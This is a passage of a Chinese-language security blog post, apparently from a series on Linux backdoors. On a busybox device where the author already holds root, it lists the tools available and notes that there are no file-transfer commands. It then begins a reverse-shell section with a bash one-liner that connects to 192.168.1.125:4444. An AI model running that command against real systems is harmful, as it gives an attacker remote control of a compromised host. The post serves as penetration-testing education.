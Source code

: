 难道没有这两个命令吗？ 使用 which 和 whereis 查找一下，先拿 pwd 程序测试一下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4E4R1xawHkgGPIGdRlCr3A8PzheNIzFsIykaRG40M8icgYjtTISQl0thA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4E2B005cs0Zj10MdUasyGIyOUOGXrR38VqbN5SXmm3MmxbzT4CmNIgkg/640?wx_fmt=png&from=appmsg "")  
  
  
命令执行并没有结果返回，这里有很多可能，例如系统中的 pwd 仅是 shell 内置命令，没有外部文件，这个可以参考之前的文章 《LD_PRELOAD 劫持 PWD 为什么失败了 | Linux 后门系列》  
> https://mp.weixin.qq.com/s/InMQaKOwns2mEIp5yF8dDw  
  
  
还有可能是 whereis 和 which 命令本身就不存在  
  
这个验证起来简单，找一个在环境变量 PATH 中的，一定存在的程序进行查找，对比结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4Ep8rlsicAqoaEiaa2SIib5rMMG9xPMYmgWlj4XfUNQjiaTEXHqp52rydDxQ/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到我们还是 root 用户权限，PATH 结果如下  
```
PATH=/sbin:/usr/sbin:/bin:/usr/bin

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4E5eJ2oGBEIbcIyJzIryb8d8QBSA1AvSMw9pFhSK3j4g3aTUw4zkYhVw/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到，此设备的 shell 环境是由 busybox 提供的，那我们就以 busybox 程序为例  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EsXW0lLAViaSIhJAn5kqqxqAOvy4NIVmqibV586aMicLY4UMTlpFqlq81g/640?wx_fmt=png&from=appmsg "")  
  
  
看来没有这两个程序，这样查看命令和工具是否存在就只能通过环境变量 PATH 和 busybox 内置列表了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EhvZytZQFZiaU53B5BrCudIj2RibEawDicqoicVSItib2AwtRIpnrvG4G4Rg/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到，文件下载相关的命令 ftp、scp、rsync 等并不支持  
```
[, [[, ash, awk, bash, cat, chmod, cp, date, df, dmesg, du, echo, env, false, fdisk, free, fsync, gunzip, gzip, halt, hwclock, ifconfig, init, insmod, iostat, kill, linuxrc, ln, login, ls, lsmod, lzcat, lzma, mdev, mkdir, mkdosfs, mkfs.vfat, mknod, modprobe, mount, mpstat, mv, netstat, ping, ping6, poweroff, ps, pwd, reboot, rm, rmmod, route, sed, sh, sleep, stty, sync, tail, tar, test, top, touch, true, umount, unlzma, zcat

```  
  
和外部网络搭边儿的也就是 ping 相关的命令  
### 2. 反弹 Shell  
- bash  
  
- nc、telnet  
  
- 编程语言环境  
  
```
bash -i >& /dev/tcp/192.168.1.125/4444 0>&1

```  
  